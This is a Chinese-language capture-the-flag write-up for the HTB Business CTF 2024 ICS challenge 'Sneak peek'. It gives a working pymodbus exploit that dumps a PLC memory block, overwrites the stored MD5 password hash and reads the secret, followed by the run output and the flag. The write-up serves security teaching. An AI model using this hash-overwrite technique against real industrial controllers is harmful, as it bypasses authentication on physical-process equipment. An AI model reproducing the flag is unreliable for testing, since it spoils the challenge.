

# Sneak peek

:::note CHALLENGE DESCRIPTION

Difficulty: EASY

As the crew delves into their quest for acetone peroxide, they stumble upon a decrepit bread factory. Intrigued by the potential for cooperation, they approach the factory and meet the Responders faction, composed of settlers, firefighters, police officers, and medics. The Responders agree to trade acetone peroxide in exchange for the crew's help in restoring the factory to full functionality. With the PLCs in hand, the crew sets up a temporary workshop within the factory's maintenance room. The hackers and engineers collaborate to analyze the aged devices, which are layered with outdated but intricate security protocols. They hook one of the PLCs up to their portable workstation and begin the painstaking process of analyzing the custom protocol used to store the password and secret data in it. Their only lead is that the password is stored in the Memory Block of the PLC under an uncrackable MD5 hash.

当船员们深入寻找过氧化丙酮的过程中，他们偶然发现了一家破败的面包厂。出于对合作潜力的兴趣，他们接近了工厂，并遇到了一个名为 “应急响应者” 的派系。该派系由定居者、消防员、警察和医护人员组成。
应急响应者同意用过氧化丙酮进行交易，条件是船员们协助将工厂恢复至全面运转状态。

拿到可编程逻辑控制器（PLC）后，船员们在工厂的维护室里搭建了一个临时工作坊。黑客和工程师们开始协作，分析这些老旧设备，它们布满了过时但复杂的安全协议。
他们将其中一个 PLC 连接到便携工作站，开始艰难地分析用于存储密码和秘密数据的自定义协议。他们唯一的线索是，密码存储在 PLC 的内存块中，并使用不可破解的 MD5 哈希加密。

:::

题目提供了一份客户端代码 `client.py` 和一个协议手册



原题为 **Business CTF 2024 - ICS - Sneak peek** 的题目

- [business-ctf-2024/ics/Knock Knock [Medium] at main · hackthebox/business-ctf-2024](https://github.com/hackthebox/business-ctf-2024/blob/main/ics/Sneak%20peek%20%5BEasy%5D/README.md)

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time
import hashlib

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
logging.basicConfig()
logging.getLogger().setLevel(logging.ERROR)

HOST_IP = '94.237.56.224' # CHANGE IP
HOST_PORT = 41761       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x64 # CHANGE FUNCTION CODE
SESSION = 0x00
ERROR_CODES = {
    0xE009: 'Authorization Error: Invalid password'
}

READ_MEMORY_BLOCK = 0x20
WRITE_MEMORY_BLOCK = 0x21
GET_SECRET = 0x22

#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []

    def encode(self):
        # Dynamically encode data based on its length and type
        data_format = '>BB' + 'B' * len(self.data)
        return struct.pack(data_format, self.session, self.code, *self.data)

    def decode(self, data):
        """Decode a request pdu.
        
        Dynamically decode data based on data lenght

        This function does not return data
        """
        print('[!] Request decode is not required for client!')


class CustomProtocolResponse(ModbusResponse):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0x00, response_code= 0x00 , data= None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []
        self.response_status = False

    def encode(self):
        """Ecnode a response pdu.
        
        Dynamically encode data based on data lenght

        This function returns data
        """
        print('[!] Response encode is not required for client!')
       
        #return

    def decode(self, data):
        """Decode a response pdu.
        
        Decode a response packet where all components including session ID and custom function code are 8-bit values.
        """
        # Unpack the session and code first
        self.session, self.code, self.response_status = struct.unpack('>BBB', data[:3])
        # Decode the remaining data as 8-bit unsigned integers
        self.data = list(struct.unpack('>' + 'B' * (len(data) - 3), data[3:]))

        global SESSION

        SESSION = self.session


def send_custom_protocol_request(client, session, code, data):
    request = CustomProtocolRequest(session=session, code=code, data=data)
    response = client.execute(request)
    
    if response.function_code < 0x80:
        #print("Successful response:", response.session, response.code, response.data)
        return response.code, response.response_status, response.data
    else:
        print("Error response:", response)
        return -1, -1, -1 

def send_packet(client, SESSION, CUSTOM_CODE, DATA=[]):
        if client.connect():
            print("Connected to the server")
        
            code, status, data = send_custom_protocol_request(client, session= SESSION, code=CUSTOM_CODE, data=DATA)  # Example with multiple data points        
            
            if len(data) == 2:
                hex_number = (lambda x: (x[0] << 8) + x[1])(data)

                if hex_number in ERROR_CODES:
                    print(f'ERROR: {ERROR_CODES[hex_number]}')
        else:
            print("Failed to connect to the server")

        return code, status, data


def increment_address(address, increment):
    # address is a list of 3 bytes
    address_int = (address[0] << 16) + (address[1] << 8) + address[2]
    address_int += increment
    return [(address_int >> 16) & 0xFF, (address_int >> 8) & 0xFF, address_int & 0xFF]


def split_list_at_value(input_list, split_value):
    result = []
    sublist = []

    for item in input_list:
        if item == split_value:
            if sublist:
                result.append(sublist)
                sublist = []
        else:
            sublist.append(item)

    if sublist:
        # check is entry is empty memory 
        if not all(x == 0xFF for x in sublist):
            result.append(sublist)

    return result

def find_sublist_index(main_list, sublist):
    sublist_len = len(sublist)
    for i in range(len(main_list) - sublist_len + 1):
        if main_list[i:i + sublist_len] == sublist:
            return i
    return -1


def string_to_list_of_ints(input_string):
    # Convert the string to a list of integers
    int_list = [ord(char) for char in input_string]
    return int_list

def int_to_3_byte_list(value):
    return [(value >> 16) & 0xFF, (value >> 8) & 0xFF, value & 0xFF]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    address = [0x00, 0x00, 0x00]  # Starting 3-byte address
    read_length = 0xFF  # Number of bytes to read
    memory_block_data = []

    for i in range(0, 64): # 64 * 256 == 16 * 1024
        data = address + [read_length]

        code, status, data = send_packet(client, SESSION, READ_MEMORY_BLOCK, data)
        

        if all(byte == 0xFF for byte in data):
            print("All bytes are 0xFF, exiting loop.")
            break

        memory_block_data += data
        # Increment the address by read_length (0xFF)
        address = increment_address(address, read_length)
    

    split_value = 0x00
    memory_block_entries = split_list_at_value(memory_block_data, split_value)

    hash_entry = []
    for entry in memory_block_entries:
        if len(entry) >= 16:
            print(entry)
            hash_entry += entry
  

    hash_entry_index = find_sublist_index(memory_block_data, hash_entry)
    print(hash_entry_index)


    passowrd = 'new_password'
    password_list = string_to_list_of_ints(passowrd)

    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(passowrd.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    # Convert hash to a list of integers
    hashed_value_list = list(hashed_value)

    for increment in range(0, 6):
        address = int_to_3_byte_list(hash_entry_index+increment)
        print(f'Trying address {address}')
        code, status, data = send_packet(client, SESSION, 0x21, address + hashed_value_list)
        print(code, status, data)


        code, status, data = send_packet(client, SESSION, 0x22, password_list)
        print(code, status, data)

        if len(data) > 2:
            print('Found correct hash address!')

            flag = ""

            for char in data:
                flag += chr(char)

            print('FLAG', flag)
```

执行得到

```shell
$ python3 exp.py
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
Connected to the server
All bytes are 0xFF, exiting loop.
[63, 155, 43, 158, 110, 120, 133, 161, 6, 128, 118, 219, 218, 247, 109, 21]
1024
Trying address [0, 4, 0]
Connected to the server
33 255 [1]
Connected to the server
34 255 [72, 84, 66, 123, 112, 50, 48, 112, 50, 49, 51, 55, 52, 50, 121, 95, 112, 50, 48, 55, 48, 99, 48, 49, 53, 95, 55, 104, 50, 49, 118, 51, 95, 55, 104, 50, 48, 117, 57, 104, 95, 48, 56, 53, 99, 117, 50, 49, 55, 121, 95, 110, 48, 55, 95, 53, 51, 99, 117, 50, 49, 55, 121, 33, 94, 125]
Found correct hash address!
FLAG HTB{p20p213742y_p2070c015_7h21v3_7h20u9h_085cu217y_n07_53cu217y!^}
Trying address [0, 4, 1]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]
Trying address [0, 4, 2]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]
Trying address [0, 4, 3]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]
Trying address [0, 4, 4]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]
Trying address [0, 4, 5]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]
```

即可得到答案

```flag
HTB{p20p213742y_p2070c015_7h21v3_7h20u9h_085cu217y_n07_53cu217y!^}
```
